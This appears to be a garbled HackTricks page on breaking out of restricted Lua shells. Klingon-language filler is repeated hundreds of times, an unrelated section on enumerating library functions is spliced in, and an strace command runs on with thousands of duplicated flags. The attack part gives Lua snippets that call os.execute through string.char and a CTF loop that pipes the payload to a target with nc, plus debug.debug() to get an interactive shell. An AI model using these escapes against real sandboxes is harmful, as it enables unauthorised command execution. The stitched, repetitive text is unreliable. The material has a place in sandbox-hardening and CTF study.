vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
# Enumerate functions of a library

## Introduction

When conducting a security assessment or penetration test, it is often necessary to analyze the functions provided by a library. This information can be crucial for identifying potential vulnerabilities or understanding how the library is used within an application.

## Methodology

To enumerate the functions of a library, you can use the following techniques:

1. **Static analysis**: This involves examining the library's source code or compiled binary to identify function names and their corresponding implementations. Tools such as `nm` or `objdump` can be used to extract this information.

2. **Dynamic analysis**: In this approach, you execute the library within a controlled environment and monitor the function calls made during runtime. Tools like `strace` or `ltrace` can be used to trace the execution and capture the function names.

3. **Symbol table analysis**: Libraries often contain a symbol table that stores information about the functions and variables within the library. Tools like `readelf` can be used to extract this information from the library.

## Example

Let's consider a scenario where we want to enumerate the functions of a library called `examplelib.so`. We can use the following commands to extract the function names:

- Static analysis using `nm`:

```bash
$ nm -D examplelib.so
```

- Dynamic analysis using `strace`:

```bash
$ strace -e trace=none -e signal=none -e read=none -e write=none -e open=none -e close=none -e fstat=none -e lseek=none -e mmap=none -e mprotect=none -e munmap=none -e brk=none -e rt_sigaction=none -e rt_sigprocmask=none -e ioctl=none -e access=none -e execve=none -e exit_group=none -e arch_prctl=none -e set_tid_address=none -e set_robust_list=none -e socket=none -e connect=none -e accept=none -e bind=none -e listen=none -e getsockname=none -e getpeername=none -e sendto=none -e recvfrom=none -e setsockopt=none -e getsockopt=none -e shutdown=none -e sendmsg=none -e recvmsg=none -e socketpair=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setfsuid=none -e setfsgid=none -e getfsuid=none -e getfsgid=none -e clone=none -e fork=none -e vfork=none -e execveat=none -e wait4=none -e kill=none -e uname=none -e semget=none -e semop=none -e semctl=none -e msgsnd=none -e msgrcv=none -e msgget=none -e msgctl=none -e shmat=none -e shmdt=none -e shmget=none -e shmctl=none -e getpriority=none -e setpriority=none -e sched_getscheduler=none -e sched_setscheduler=none -e sched_getparam=none -e sched_setparam=none -e sched_get_priority_max=none -e sched_get_priority_min=none -e sched_rr_get_interval=none -e mlock=none -e munlock=none -e mlockall=none -e munlockall=none -e prctl=none -e arch_prctl=none -e setrlimit=none -e getrlimit=none -e getrusage=none -e gettimeofday=none -e settimeofday=none -e adjtimex=none -e getcwd=none -e chdir=none -e fchdir=none -e mkdir=none -e rmdir=none -e creat=none -e link=none -e unlink=none -e symlink=none -e readlink=none -e chmod=none -e fchmod=none -e chown=none -e fchown=none -e lchown=none -e umask=none -e getuid=none -e geteuid=none -e getgid=none -e getegid=none -e getgroups=none -e setuid=none -e setgid=none -e setgroups=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getpgid=none -e setpgid=none -e setsid=none -e getsid=none -e getppid=none -e setreuid=none -e setregid=none -e getreuid=none -e getregid=none -e getgroups=none -e setgroups=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid=none -e setresuid=none -e setresgid=none -e getresuid=none -e getresgid
```bash
for k,v in pairs(string) do print(k,v) end
```
**ghItlhvam** 'ej **lua qutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e' vItlhutlh** *'e' vItlhutlh*. vaj **'e'
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Qapla'! Interactive lua shell yIqel**: vaj vIneHbe' limited lua shell DaH vIneHbe' lua shell (je vaj hopefully unlimited) jImej:
```bash
debug.debug()
```
## References

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slides: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
